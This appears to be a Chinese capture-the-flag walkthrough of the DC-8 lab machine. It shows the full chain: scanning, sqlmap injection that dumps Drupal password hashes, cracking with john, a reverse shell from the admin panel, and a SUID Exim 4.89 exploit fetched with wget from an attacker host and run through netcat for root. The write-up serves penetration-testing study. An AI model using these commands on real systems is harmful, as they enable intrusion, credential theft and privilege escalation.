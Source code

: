 # DC-8

## 信息收集

### 主机扫描

```shell
nmap -sP 192.168.238.0/24
或
arp-scan -l
```

靶机ip`192.168.238.196`

### 端口扫描

```
nmap -A 192.168.238.196
```

![image-20240303144113927](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303144113927.png)

有22，80端口开着

### 目录扫描

```shell
dirb http://192.168.238.196/ | grep 'CODE:2'
或
dirsearch -u http://192.168.238.196/
```

这里能扫到登录页面，也可以直接看robots.txt

```
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
```

## 漏洞的发现和利用

### SQL注入点

观察url，可能存在sql注入点，sqlmap跑一下，自己先手测一下也可以

这里我加了一个单引号，发现报错了

![](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303145725633.png)

老套路，跑数据

```shell
sqlmap -u http://192.168.238.196/?nid=1 --dbs
sqlmap -u http://192.168.238.196/?nid=1 -D d7db --tables
sqlmap -u http://192.168.238.196/?nid=1 -D d7db -T users -C name,pass --dump
```

得到了用户名和密码

```shell
+--------+---------------------------------------------------------+
| name   | pass                                                    |
+--------+---------------------------------------------------------+
| admin  | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| john   | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+--------+---------------------------------------------------------+
```

### john命令解密

密码是hash加密了的，用john进行解密

```
echo '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF' > 1.txt
```

```
john 1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

得到密码明文`turtle`，这里只解出来john的密码

尝试登录后台，john用户可以登录上来

### 反弹shell

一顿找，找到了可以解析php的地方。这里可以先用phpinfo进行测试，我测试过了，所以直接弹shell了

![image-20240303151810659](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303151810659.png)

利用python生成一个伪终端，前提是靶机上有python

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 提权

查找一下有suid权限的命令

> **SUID（Set User ID）是Linux文件系统中的一个特殊权限**，它允许文件在执行时以文件所有者的身份运行。这意味着，当一个具有SUID权限的文件被执行时，调用者会获得该文件所有者的权限，即使调用者本身没有足够的权限来执行该文件。
>
> 4000 2000 1000分别表示SUID SGID SBIT
>
> 1.普通文件，文件的权限一般三位，777最高文件权限
> -perm -0777搜索的就是最高权限的文件rwxrwxrwx
> -perm +0777搜索的只要包含rwxrwxrwx任意一个的文件
> 2.特殊文件，包含权限位置四位，7000为最高，即–s–s–t，同样的方法
> -perm -7000搜索的就是最高权限的文件–s–s–t
> -perm +7000搜索的只要包含–s–s–t任意一个的文件，–s — —（4000）、— –s —（2000）、— — –t（1000）等

```shell
www-data@dc-8:/var/www/html$ find / -type f -perm -4000 -print 2>/dev/null    
find / -type f -perm -4000 -print 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount
```

发现有个exim4命令

看一下它的版本

```shell
www-data@dc-8:/var/www/html$ exim --version
exim --version
Exim version 4.89 #2 built 14-Jun-2017 05:03:07
```

在kali上搜一下，看一下有没有这个版本漏洞
![image-20240303154128715](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303154128715.png)

发现有一个46996.sh符合

将脚本下载到靶机上

```shell
wget 192.168.238.70/dc-8.sh -P /tmp
```

查看源码，使用方法

![image-20240303154702814](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303154702814.png)

这里使用netcat方式

```shell
www-data@dc-8:/tmp$ ./dc-8.sh -m netcat
```

成功提权后，一分多钟就回到原来权限，但也够用了

## 总结

> SUID（Set User ID）是Linux文件系统中的一个特殊权限
>
> `find / -type f -perm -4000 -print 2>/dev/null `查找有suid权限的文件
>
> `python -c 'import pty; pty.spawn("/bin/bash")'`生成一个伪终端
>
> 涉及到的知识点：
>
> SQL注入，john命令，php反弹shell，exim4的提权